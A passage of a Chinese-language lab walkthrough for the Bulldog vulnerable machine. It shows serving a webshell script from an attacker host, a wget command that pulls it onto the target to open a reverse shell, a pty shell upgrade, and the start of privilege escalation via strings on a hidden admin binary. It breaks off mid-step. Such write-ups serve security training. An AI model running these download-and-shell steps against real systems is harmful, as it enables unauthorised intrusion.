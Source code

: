 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Cv67HpaKWEibjrJK114ZKvbhJjbyTa4V0WKtfxOibGfLFmLgib7orxU2g/640?wx_fmt=png)

如果服务器搭建在 / var/www/html 文件时，需要把脚本写到 / var/www/html。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9EObNYPDm64VNv7yTFP5a3jnNRs0hugTeyjn2NknIBKnfSZGkXicbuyw/640?wx_fmt=png)

输入下面监听 Python 网站。

*   python -m SimpleHTTPServer 80
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9dcEKLcj2Nq6TdL6PvOD8sRIHicicjSUesZpXBNVumgJnV9bJ1pn6SYgQ/640?wx_fmt=png)

靶机用 weget 命令上传 Python 文件，并反弹 shell。

*   pwd&wget http://192.168.44.153/bulldog-webshell.py
    
*   反弹成功 输入 python -c ‘import pty;pty.spawn("/bin/bash")’
    

至此，我们得到了 django 的普通权限，下一步就是想办法提权，这就需要不断地去探索发现整个系统的漏洞。

4. 权限提升和获取 flag
---------------

nc 反弹 shell 之后，我们可以使用命令进行一系列的查看。

*   ls
    
*   cd
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9mdpVpibuFPD9EQcZWEscdPib5r0jPkDpxj8LyhF28AKQ2ibeWP2h8JTKQ/640?wx_fmt=png)

切换目录到 bulldogadmin，并查看全部文件，包括隐藏文件。

*   cd bulldogadmin
    
*   ls -al
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9tLMTVoXcSJq736DvyfkcnXEAtqmcKndeEHicSezoPXxkROXOvibObhbg/640?wx_fmt=png)

这里发现一个. hiddenadmindirectory 文件，进入隐藏管理员目录查看。看到 customPermissionApp，它应该是分配权限的一个程序，但我们没有权限打开。接着怎么办呢？虽然不能执行，但是尝试查看文件的内容和字符串。

*   cd .hiddenadmindirectory
    
*   ls -al
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9xOemUN6Sp4dPLmtOEia6N5Ctw2ryicLeI4SQ7UTwnFttbMQQhskayCMw/640?wx_fmt=png)

利用 string 查看可执行文件中的字符。

*   strings customPerssionApp
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9ibibfb5737ia6rzaFUyuYnDB4crDUUpXWTgAEOCBSwAk3sQCYW9jmRkGA/640?wx_fmt=png)

从以上字符猜测该程序的用途，推测其是密码。通过下列四个字符拼接，注意每一段后面的 H 不是密码需要去除。
